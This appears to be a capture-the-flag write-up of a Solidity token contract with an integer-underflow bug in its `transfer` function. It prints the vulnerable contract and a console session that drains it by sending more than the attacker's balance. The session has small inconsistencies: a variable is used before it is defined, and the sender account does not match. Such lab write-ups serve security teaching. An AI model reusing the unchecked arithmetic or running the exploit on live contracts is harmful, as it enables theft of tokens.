 ### Exercise 5: Token

The token contract is vulnerable because there is no under/overflow protection applied to the arithmetic used to determine account balances.
In the vulnerable `Token.sol` contract there exists a function, `transfer` that sends tokens to an address provided as an argument. The "donor" of the tokens is taken to be `msg.sender()`. The account balance of `msg.sender` is decremented by the number of tokens transferred to the recipient. The vulnerability is that unsigned integers are used with no under/overflow protection. This means that any amount of tokens that exceeds the current balance of `msg.sender` will cause the toen balance to "loop around" and decrement from the maximum value that can be stored in a uint. So, to hack this contract all we need to do is to transfer any number of tokens that exceeds our current balance to any arbitrary address. In the example below I set up two accounts: `hacker`, which is the account we want to accrue stolen funds into, and `accomplice ` which is just an arbitrary address to transfer to. To steal the maximum amount of tokens, we transfer our `current balance + 1`. 

### Vulnerbale contract

```javascript
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract Token {

  mapping(address => uint) balances;
  uint public totalSupply;

  constructor(uint _initialSupply) public {
    balances[msg.sender] = totalSupply = _initialSupply;
  }

  function transfer(address _to, uint _value) public returns (bool) {
    
    // if we send >current balance, the balance will loop around and become +ve
    // so this require is satisfied
    require(balances[msg.sender] - _value >= 0);
    // now we transfer out N tokens and our balance also "loops" around to give large number
    balances[msg.sender] -= _value;
    // recipient gets expected number of tokens
    balances[_to] += _value;
    return true;
  }

  function balanceOf(address _owner) public view returns (uint balance) {
    return balances[_owner];

  }
}
```


#### Execution

```bash
>>> hacker = accounts.load('main')
>>> accomplice = accounts.load('account2')
>>> token.balanceOf(hacker)
>>> 20
>>> token = Token.at('0x7CCf5F83b2BB87532f2888fA72F6639D512a17E7')
>>> token.transfer(accomplice, 21, {'from':owner})
>>> token.balanceOf(hacker)
    115792089237316195423570985008687907853269984665640564039457584007913129639935
```